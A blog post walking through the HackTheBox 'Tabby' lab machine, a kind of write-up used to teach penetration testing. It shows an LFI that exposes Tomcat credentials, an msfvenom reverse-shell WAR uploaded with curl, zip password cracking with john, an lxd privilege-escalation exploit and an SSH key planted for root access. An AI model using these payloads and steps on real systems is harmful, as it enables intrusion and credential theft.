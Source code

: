 ```yaml
---
layout: post
title: HackTheBox Tabby walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, linpeas, ssh, lxd, tomcat, lfi, john]
comments: true
---
```



This is a write up about 'Tabby' box from HackThebox. The machine is rated as easy by the community and CVE oriented. I exploited a Local File Inclusion (LFI) vulnerability to get the admin web server credentials, used those credentials to upload a war file and get remote code execution. I found the password of a backup file, logged myself as user 'ash' with it and exploit a 'lxd' privilege escalation vulnerability to get full control of the machine.


![into_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8ef266cc2812400c8683218347a1d3fc.png)



As always I started by port enumeration.


![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/987987c4fcf945e7aa64b25d8536798e.png)




![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/1f617483764c4fbba3a9f9b7a24f0afd.png)




I browser to the main website (on port 80) and found a [LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion).



![suspicious_url.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/d980c4ba589345328af65147252aa056.png)



![lfi.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/27fc66fd9f9447228f593b962893566b.png)

The seconde HTTP server (on port 8080) had a basic installation of tomcat 9. I did my homework and found tomcat versions 7 to 9 were vulnerable to remote code execution if I could upload a malicious WAR file into the server.

Tomcat9 allows users to upload WAR files into the server to  install web applications (see: [remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)) but users must be authenticated and have manager rights define into `tomcat-users.xml` configuration file.
I used the LFI discovered previously to get access to `tomcat-users.xml` configuration file.

![tomcat-users.xml.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/e2780244817345728fc064069c33ee3a.png)

Tomcat is an open-source implementation of the Java servlet technology and can run jsp files. I used `msfvenom` to create a WAR file containing a malicious jsp document and upload the war file with curl.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR-IP-ADDR -f war -o reverseshell.war
curl -v -u 'tomcat':'$3cureP4s5w0rd123!' -T reverseshell.war http://10.10.10.194:8080/manager/text/deploy?path=/reverseshell4444&update=true
```

I used netcat to listen on port 4444 and browser to my newly upload application (http://10.10.10.194:8080/reverseshell4444) to get a shell.


![tomcat_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/e92487ac5644472cb38809675ee6b619.png)


I found a backup file protected by a password own by ash. 



![found_backup_file.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c0fbaabf39734fd8aa4c5d8ae1039119.png)



Any user could read the file so I uploaded it  on my machine and brute force the password with john.

```bash
/usr/sbin/zip2john 16162020_backup.zip  > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```

![backup_password.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/36d527c32c9c49d1882a6f9d650e8003.png)

I used the command `su ash` and log in with the password `admin@it`.

![ash_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/680afd5896ff4d52b1efe8d6e1cf2c93.png)

I enumerated the box for clues that could lead me to a privilege escalation with the automated tool [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) and found I could get to the user ash to root through a [lxd vulnerabilty](https://www.exploit-db.com/exploits/46978).

For the exploit to work properly I needed to upload a container image into the box since Tabby wasn't connected to the internet.

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
./build-alpine
searchsploit -m linux/local/46978.sh
```

I downloaded '46978.sh' script and the container image from my machine into ash root directory and got a root shell on the container.

```
chmod +x 46978.sh
./46978.sh -f CONATAINER_IMAGE
```

![root_container.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/014af8c4a7fd4c54a6b4895471d07390.png)

The file system of Tabby is accessible from `/mnt/root/` and I can make any modification on the box since I'm root on the container. I created a pair of SSH key with `ssh-keygen` command and copy to content of the public key into `/mnt/root/.ssh/authorized_keys` file. 

I SSH into the box as root and got a shell.


![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/5015ddcdcd06472190bc2e70b88565c9.png)

I like realistic box and this box is definitely one of them. I learned a lot about tomcat and lxd privilege root escalation.

# References
[Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
[lxd privilege escalation exploit](https://www.exploit-db.com/exploits/46978)
[Automated Enumaration linux tool](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
[Tomcat 9 remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)

